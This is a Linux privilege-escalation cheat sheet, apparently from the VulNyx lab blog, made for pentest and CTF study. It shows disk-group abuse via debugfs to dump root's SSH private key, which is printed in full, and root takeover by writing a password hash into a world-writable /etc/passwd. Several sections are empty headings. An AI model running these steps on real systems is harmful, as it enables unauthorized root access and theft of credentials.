 ```yaml
---
title: 🐧 Privilege Escalation (Linux)
date: 0003-01-01
layout: post
---
```


### Groups

#### disk

When a user is part of a `disk` **group**, he or she is granted direct access to the system **disks** and **partitions**.

**Check Group**

```ruby
low@vulnyx:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),6(disk)
```

**Abuse Group**

```ruby
low@vulnyx:~$ df -h
Filesystem      Size  Used Avail Use% Mounted on
udev            480M     0  480M   0% /dev
tmpfs            99M  3.2M   96M   4% /run
/dev/sda1        11G  2.2G  8.1G  21% /
tmpfs           494M     0  494M   0% /dev/shm
tmpfs           5.0M     0  5.0M   0% /run/lock
tmpfs           494M     0  494M   0% /sys/fs/cgroup
tmpfs            99M     0   99M   0% /run/user/1000
```
```ruby
low@vulnyx:~$ /usr/sbin/debugfs /dev/sda1
debugfs 1.44.5 (15-Dec-2018)
debugfs:  ls /root
debugfs:  ls /root/.ssh/
debugfs:  cat /root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAstkGmc1W+epM0w13VQrLO/wMNWwxFltotpa9elYJVXSlBc+PgF6I
vnpxKBu/BFHAogrQt/i7MI3+64POT6X8nVWokKi9raRlaSFl2k8373C+lLyzt/JewfThUl
VQINQ33vGIemNAbvJkqmMveAthMFEnAnNCnB6jct/Mhr74LjWgmX47tjrTxh3rdUF3SyVV
J6HJMX015n+1md/zGX6CcjqaZGdCi5WY6xJHFkpp9yyszID8fmouUnQOq66C52Dbv5QNxV
H8wSpH0HfTP3lqqMiXga8kUQGrHkfzmDT66wpTT6xvEHEa6zApu1PrDiW5K3EGhpTR/ylm
GhcjB2iDrwAAA8CEFaHVhBWh1QAAAAdzc2gtcnNhAAABAQCy2QaZzVb56kzTDXdVCss7/A
w1bDEWW2i2lr16VglVdKUFz4+AXoi+enEoG78EUcCiCtC3+Lswjf7rg85PpfydVaiQqL2t
pGVpIWXaTzfvcL6UvLO38l7B9OFSVVAg1Dfe8Yh6Y0Bu8mSqYy94C2EwUScCc0KcHqNy38
yGvvguNaCZfju2OtPGHet1QXdLJVUnockxfTXmf7WZ3/MZfoJyOppkZ0KLlZjrEkcWSmn3
LKzMgPx+ai5SdA6rroLnYNu/lA3FUfzBKkfQd9M/eWqoyJeBryRRAaseR/OYNPrrClNPrG
8QcRrrMCm7U+sOJbkrcQaGlNH/KWYaFyMHaIOvAAAAAwEAAQAAAQBFdRunJ6Qbsu7bGGO7
11FOnnhvVvFJaX6lSq2TkU5WrdJZC18Dz7LzpsHDfeMVXlqdk+2zRRoNpVfXR30cWa5dvC
KW67GeejYYOixAOHvUtciOIyr4yVwbn2rSeud/mGuKXetO/LTNYb3Onm6VBHZeOWYZAYJg
91UrC9d2jTv9VZer6rtGJJKVdO8XrVgrciQU2GQgk0bBhcxXV4XOC7wYsoIdEuvkQG53Wu
PZmbU0uoIE6MSVtm3dct7uEt190KAkUNxKOflDmWUgjcyKODeQj/pwUgRaXzNTRaa+tuBU
9I0YwCS+LKt+KvyxO5DrbBDs5egoR3Pdz+Btcivn2i2hAAAAgCYIx3jhzhe5gwS5MnB6yW
LlszD7QWvNm+hhoO8NqIhCEOPRMwMN7fNJ3ACfkh4Tin1YObuUba8Ekn3cJSCt7fZ9Rh4k
tNsRoTZL6Az78gyAq2+OpZYQfLhxSDeypBRcih2ysvuXXZRVk1CEFe1XqNSn4wE82knfk/
qAGo5gPpwiAAAAgQDnpzswlg0aC/RfTdrGh9HuHc8fJQUgBbt3ofKz+ulOKSnnmlfDasK9
ATzM2Ee7HOmV0xXaAaXDsRXkgjoSQow9QWhDiLpR5eRbjjXEY3xcTpqQA1yNNqLkJmA1yP
QnRSJDbLQspSdlC6YDzHa0FcwkK14b0IN2AM7+APXsAQ2MywAAAIEAxaUIB8cQoUkdEeGD
QdVyjBpQQrjARPt5tmnTm1tmJpobkrpmTw7/VDYFUnJ/k7YYiUfsqyw7RJJQPYtnNTanBB
IYohf/jZd0WBAEsTzmtYLHcjo+ln7gMDtyKVj+SqhkXDHaeOkzpW4Ev5RB+clZLRwrAWuu
gaN4ZcqmaVXfzC0AAAALcm9vdEBzYXRvcmk=
-----END OPENSSH PRIVATE KEY-----
```

#### adm

#### docker

#### lxd

#### fail2ban

#### video

---

### /etc/passwd (Writable)

If a low-privileged user has permissions to write to the `/etc/passwd` file, an attacker can remove the `:x:` (on the `root` user line) and add a **hash**.  
This will change the file where a user's authentication is performed, from being done through the `/etc/shadow` file to being done through the `/etc/passwd` file.

**Check Permissions**

```ruby
low@vulnyx:~$ ls -l /etc/passwd
-rw----rw- 1 root root 1395 abr 21 20:16 /etc/passwd
```

**Create Hash**

```ruby
root@kali:~# openssl passwd -1 "P@ssword123"
$1$TSMXnd0L$DwQWYa.zuPqtZUjyRLWxy0
```

**Add Hash**

```ruby
# before
low@vulnyx:~$ cat /etc/passwd |grep root
root:x:0:0:root:/root:/bin/bash

# after
low@vulnyx:~$ cat /etc/passwd |grep root
root:$1$TSMXnd0L$DwQWYa.zuPqtZUjyRLWxy0:0:0:root:/root:/bin/bash
```

**Authenticate**

```ruby
low@vulnyx:~$ su -
Password:

root@vulnyx:~# id
uid=0(root) gid=0(root) grupos=0(root)
```

---

#### Disclaimer

> ##### WARNING
> All techniques presented in this blog are for educational and ethical purposes.  
> The [VulNyx](https://vulnyx.com) team is not responsible for any misuse or damage caused to third party systems or infrastructure.
{: .block-warning }

<br><br>
<div style="display: flex; justify-content: center; align-items: center; width: 100%; margin-top: 20px;">
  <img src="/assets/gitbook/images/favicon.png" style="width: 30px; height: auto; margin-right: 6px;">
  <span>© VulNyx 2023-2025</span>
</div>
